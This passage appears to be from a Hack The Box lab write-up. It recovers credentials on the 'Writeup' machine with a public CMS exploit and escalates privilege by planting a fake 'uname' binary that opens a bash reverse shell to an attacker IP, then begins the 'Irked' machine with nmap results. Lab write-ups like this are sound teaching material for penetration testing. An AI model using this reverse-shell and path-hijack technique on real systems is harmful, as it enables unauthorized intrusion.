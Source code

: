 https://www.exploit-db.com/exploits/46635

and for me the python2 versions are not the most stable exploits so i modified the print statements and added () to them and that helped me execute the exploit. And as a result we get this :
```bash
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
So now lets make a hash we can create a hash to crack : 
```
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```
we can now login to the ssh using jkr user

Doinng some basic ennumeration i dont really find anything that useful leaving when we do 
```
id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```
and researching about these groups we find this 
```bash
jkr@writeup:/tmp$ echo '#!/bin/bash' > uname
jkr@writeup:/tmp$ echo "bash -i >& /dev/tcp/10.10.16.131/4444 0>&1" >> uname
jkr@writeup:/tmp$ chmod a+x uname 
jkr@writeup:/tmp$ cp uname /usr/local/bin
```

# Linux : Irked : 10.10.10.117 : Easy

Nmap Results :
```
Nmap scan report for 10.10.10.117
Host is up (0.066s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34454/udp   status
|   100024  1          36719/tcp6  status
|   100024  1          49640/udp6  status
|_  100024  1          55131/tcp   status
6697/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
8067/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
55131/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel1
```
